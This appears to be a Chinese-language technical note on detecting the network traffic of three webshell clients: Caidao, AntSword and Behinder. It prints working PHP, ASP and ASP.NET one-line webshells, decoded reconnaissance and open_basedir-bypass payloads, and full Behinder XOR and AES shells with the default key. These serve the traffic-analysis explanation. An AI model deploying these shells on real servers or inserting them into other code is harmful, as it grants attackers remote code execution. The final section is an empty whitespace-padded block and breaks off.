





# webshell流量分析

# 菜刀Caidao（加密强度低：Base64 / 明文）

### 1.写马

不同语言写马格式：

```
PHP: <?php @eval([$_post['Hamburger']]); ?>
ASP: <% eval request(“Hamburger”)%>
ASP.NET: <%@ Page Language=“Javascript”%><% eval(Request.Item[“Hamburger”],“unsafe”);%>
//提示：@用来抑制 PHP 错误输出，避免执行报错时暴露木马存在。eval(…)：执行传入的字符串命令。密码为Hamburger。
```

### 2.特征

1.加密方式

- 明文传输：早期版本直接传输命令，无加密 。
- Base64 编码：新版本对参数进行 Base64 编码，但密钥固定（如z0 ）

2.协议类型

- HTTP，使用 TCP 协议 。

3.请求特征

User-Agent 伪装：伪造为百度爬虫或火狐浏览器 。
参数名特征：参数名多为z0、pass，请求体包含eval、base64_decode等关键词 。
响应包格式：结果格式为X@Y 结果 X@Y，X@Y为随机字符串 。
请求体中传递的payload为base64编码，并且存在固定的QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J

4.端口使用

- 常见端口范围 20000 - 30000，连接时发送字符串 “yyoa” 验证 。

---

### 3.实例分析



可以看到UA头出现百度蜘蛛的标志性标识

POST数据包中密码pass的内容：

```php
pass = array_map(
    "ass"."ert",
    array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al
(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JEQ9ZGlybmFtZShfX0ZJTEVfXyk7JFI9InskRH1cdCI7aWYoc3Vic3RyKCRELDAsMSkhPSIvIil7Zm9yZWFjaChyYW5nZSgiQSIsIloiKSBhcyAkTClpZihpc19kaXIoInskTH06IikpJFIuPSJ7JEx9OiI7fSRSLj0iXHQiOyR1PShmdW5jdGlvbl9leGlzdHMoJ3Bvc2l4X2dldGVnaWQnKSk%2FQHBvc2l4X2dldHB3dWlkKEBwb3NpeF9nZXRldWlkKCkpOicnOyR1c3I9KCR1KT8kdVsnbmFtZSddOkBnZXRfY3VycmVudF91c2VyKCk7JFIuPXBocF91bmFtZSgpOyRSLj0iKHskdXNyfSkiO3ByaW50ICRSOztlY2hvKCJYQFkiKTtkaWUoKTs%3D'));\");"
   )
);
```

`array_map` 这是php中的一个数组函数，它将一个函数作用到给定数组的每个元素上，并返回一个新的数组。

`"ass"."ert"` 这个字符串拼接的结果是"assert"，执行一个字符串作为php代码。

因此，array_map将 "assert"函数作用到后面的数组的每个元素上。

```
array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev".(\\\$xx(''));\");` 这个字符串经过拼接后就是 `@eval("\$xx=\"BASE64_dEcodE\";@eval(\"\\\$xx(''));\");
```

在php中，当在一个表达式之前加上`@`时，任何产生的错误信息都将被忽略。

eval函数中明显是一个Base64编码的Payload

`$xx`，解码以后：

```
//display_errors设为0，php不会显示错误信息
@ini_set("display_errors","0");
//设置脚本的最大执行时间为无限制
@set_time_limit(0);  
if (PHP_VERSION < '5.3.0') {
    //如果php版本低于5.3.0则关闭magic_quotes_runtime确保兼容性
    @set_magic_quotes_runtime(0);  
};
echo("X@Y");
//获取当前文件所在目录的路径
$D = dirname(__FILE__);  
$R = "{$D}\t";
//如果当前路径的第一字符不是 / 则表明是 Windows环境
if (substr($D, 0, 1) != "/") {  
    //循环遍历从A到Z的所有字母，查找其中哪个是有效的驱动器（盘符），并将它们加到$R中
    foreach(range("A", "Z") as $L) if (is_dir("{$L}:")) $R. = "{$L}:";
}
$R. = "\t";
//检查是否存在posix_getegid函数,是否运行在支持POSIX的系统,如果支持，则获取当前有效用户的用户信息，否则返回空
$u = (function_exists('posix_getegid')) ? @posix_getpwuid(@posix_geteuid()) : '';
//获取当前php的运行用户
$usr = ($u) ? $u['name'] : @get_current_user();
//添加操作系统相关信息
$R. = php_uname();  
$R. = "({$usr})";
print $R;;
echo("X@Y");
//结束脚本执行
die();  

```

---

**2016版本菜刀相较于2011-2014版本菜刀，最大的改变就是将特征进行打断混淆，eval函数或assert函数用于执行传递攻击的payload，base64_decode函数解码传输的数据。而响应包在`->| |<-`之间包含执行结果。**

---

# 蚁剑AntSword（加密强度中：Base64/RSA）

### 1.写马的关键执行函数（Webshell代码特征）

不同脚本语言的 Webshell 会使用特定“代码执行函数”，例如：

```
PHP：eval()、assert()、preg_replace()（配合/e修饰符）、create_function()等*(若使用一句话木马：<?php @eval($_POST['pass']);?> ，则注意 POST 要大写，否则蚁剑返回为空。)*；

ASP/ASPX：Execute()、Eval()、System.Reflection.Assembly.Load()（加载恶意程序集）；

JSP：Runtime.getRuntime().exec()、Class.forName()（反射执行命令）。（使用的是Java类加载ClassLoader,同时会带有base64编码解码等字符特征）
特征：函数名常被字符串拼接混淆（如"ev"."al"）
```

###  2.加密解码逻辑

```
默认采用Base64 + XOR双层加密
代码中存在明显的base64_decode()函数调用
包含异或运算逻辑（如$c ^ $key）
```

### 3.流量特征

请求头特征

1. **User-Agent：默认含AntSword标识，或伪装为浏览器UA（但缺乏细节）可以通过修改:/modules/request.js 文件中 请求UA绕过。旧版本默认User-Agent含AntSword/版本号**
   **请求体特征**
2. **以@ini_set(“display_errors”, “0”);@set_time_limit(0)开头。并且是url编码后进行传输**
   **以POST方法为主，请求体为单一参数（如pass=加密内容）**
   **加密内容特征：Base64字符串（长度为4的倍数，含+、/、=）**
   **请求路径特征**
3. **对应Webshell路径，多为脚本文件（.php/.asp/.jsp等）**
   **可能伪装为正常文件（如image.php、include.aspx）**
   **响应包特征**
4. **响应体的返回结果是base64编码发混淆字符，格式为：**
   **随机数**
   **结果**
   **随机数。**
   **其他特征**
5. **参数名大多以“_0x…=”（下划线可替换为其他）这种形式，所以以0x开头的参数也很可能就是恶意流量。**
6. **默认编码器，解码器除base64之外的特征，测试连接、正常的webshell操作时，发送包特征为密码=base64字符串&随机字符串=类似于base64字符串，且返回包为明文**

---

### 4.实例分析

蚁剑与菜刀相比，界面更加丰富，功能更加齐全。

在服务器写一句话木马： `<?php @eval($_POST['pass']);?>`，注意 POST 要大写，否则蚁剑返回为空。

**选择编/解码器选着default时，则不对传输的Payload进行任何操作。**



对pass进行URL解码：

```
pass = @ini_set("display_errors", "0");
@set_time_limit(0);
//获取php的open_basedir配置项的值
$opdir = @ini_get("open_basedir");
if ($opdir) {
    //获取当前脚本文件的路径
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    //使用base64解码后的字符串进行分割操作
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    //将当前脚本路径和系统临时目录添加到$oparr数组中
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        //构建临时目录路径，959eddc56d0f是一个随机字符串
        $tmdir = $item."/".959eddc56d0f;
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        //获取临时目录的真实路径
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        //修改open_basedir的配置为父目录
        @ini_set("open_basedir", "..");
        //使用正则表达式分割临时目录路径
        $cntarr = @preg_split("/\\\\\\\\|\\//", $tmdir);
        //循环返回上级目录
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        //将open_basedir配置项恢复为根目录
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};
function asenc($out) {
    return $out;
};
//定义一个函数asoutput，用于输出结果
function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "bb"."bf3";
    echo @asenc($output);
    echo "8f0"."909";
}
//启动输出缓冲
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    //一下和菜刀类似，获取盘符，用户信息，系统信息
    $R = "{$D}  ";
    if (substr($D, 0, 1) != "/") {
        foreach(range("C", "Z") as $L) if (is_dir("{$L}:")) $R. = "{$L}:";
    } else {
        $R. = "/";
    }
    $R. = "   ";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R. = php_uname();
    $R. = "  {$s}";
    echo $R;
} catch (Exception $e) {
    echo "ERROR://".$e - > getMessage();
}
asoutput();
die();
HT
```

相较于菜刀的改进之处在于，可以通过修改open_basedir配置项来尝试绕过授权目录的安全配置的限制。

**当选择编/解码器选着base64时，就是将上面的这段php代码经过base64编码再经过URL编码（下图蓝色选中部分）后赋给一个随机串。然后将这个随机串的值通过POST方法传入eval函数再base64解码，通过eval函数执行后最后传给pass。**



---

# 冰蝎Behinder（加密强度高：**AES-128 对称加密**（v2.0-v3.0）和 **完全自定义加密**（v4.0））

冰蝎也是一款基于Java开发的动态加密通信流量的新型Webshell客户端，它的通信流量也是被加密的。

## 冰蝎的3.0及以下和4.0不同

1、冰蝎 3.0 之前的版本，会通过 GET  请求从服务端获取 16 位随机密钥，这个过程是明文的，容易被检测

2、3.0 及之后的版本，直接将密钥写死在 WebShell 中（例如默认密钥为e45e329feb5d925b由md5("rebeyond")的前 16 位生成） 全程加密通信 不再需要通过 GET 请求协商密钥 所以流量中只有 POST 请求

---

## Behinder 4.0

在最新的4版本中提供了传输协议自定义功能，支持让用户对流量的加密和解密进行自定义。

传输协议有以下这 6 种：



**PHP Shell**

主流的 3 种，这里以php的shell为例：

default_xor 生成的php shell：

```php
<?php
@error_reporting(0);

$post=Decrypt(file_get_contents("php://input"));
@eval($post);
?>
```

default_xor_base64 生成的php shell：

```php
<?php
@error_reporting(0);
function Decrypt($data)
{
    $key="e45e329feb5d925b"; 
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i+1&15]; 
    }
    return $after;
}
$post=Decrypt(file_get_contents("php://input"));
@eval($post);
?>
```

default_aes 生成的php shell：

```php
<?php
@error_reporting(0);
	function Decrypt($data)
	{
		$key="e45e329feb5d925b"; //čŻĽĺŻ†é’Ľä¸şčżžćŽĽĺŻ†ç 32位md5值的ĺ‰?16ä˝ďźŒéť˜čŽ¤čżžćŽĽĺŻ†ç rebeyond
		return openssl_decrypt(base64_decode($data), "AES-128-ECB", $key,OPENSSL_PKCS1_PADDING);
	}
$post=Decrypt(file_get_contents("php://input"));
@eval($post);
?>
```

---

### **请求和响应数据解密**

这里将采用AES加密模式的shell上传到服务器，如图新增Shell，加密类型选择自定义：



冰蝎的初始通信过程会产生 2 个请求数据包

大致的通信流程：

1. 本地对Payload进行加密，然后通过POST请求发送给远程服务端
2. 服务端收到Payload密文后，利用解密算法进行解密
3. 服务端执行解密后的Payload，并获取执行结果
4. 服务端对Payload执行结果进行加密，然后返回给本地客户端
5. 客户端收到响应密文后，利用解密算法解密，得到响应内容明文

尝试对第 1 个请求报文进行默认的aes密钥解密：

根据上面生默认生成的shell可知，AES加密采用的是ECB模式，密钥长度128bits。这里选择对应选项，使用默认密钥`e45e329feb5d925b`进行解密。


## Behinder 3.0及以下

```
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                
?>
```


